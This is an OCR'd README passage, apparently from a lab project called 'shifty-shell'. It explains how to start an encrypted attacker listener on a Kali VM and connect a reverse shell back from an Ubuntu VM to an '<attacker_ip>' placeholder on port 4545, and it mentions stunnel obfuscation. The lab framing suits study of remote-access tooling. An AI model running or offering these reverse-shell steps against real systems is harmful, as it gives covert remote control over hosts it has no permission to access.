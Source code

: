 > **Note:**
> Always ensure that the bridged adapter is properly configured in VirtualBox settings for both VMs.

---

## Usage Guide :running:

### 1. Basic Shell Usage

This section explains how to launch and use the reverse shell before adding any TLS obfuscation like `stunnel`.

--- 

#### ✅ Step 1: Start the Attacker Server (Kali VM)

1. Open a terminal in the Kali VM.

2. Navigate to the project directory and activate the Python virtual environment:
    ```bash
    cd ~/shifty-shell
    source venv/bin/activate
    ```

3. Start the server:
    ```bash
    python3 -m server.attacker_server
    ```
    - `-m` flag enables Python to treat `shifty-shell` as the root package, and imports work as intended

    You should see something like:
    ```
    [+] Initial encryption method: AES
    [*] Listening on 0.0.0.0:4545
    ```
---

#### ✅ Step 2: Start the Reverse Shell (Ubuntu VM)

1. Open a terminal in the Ubuntu VM.

2. Navigate to the project directory and activate the virtual environment:
    ```bash
    cd ~/shifty-shell
    source venv/bin/activate
    ```

3. Connect to the attacker by running:
    ```bash
    python3 -m shell.reverse_shell <attacker_ip> 4545
    ```

    - Replace <attacker_ip> with your Kali VM’s IP (e.g. 192.168.0.20).
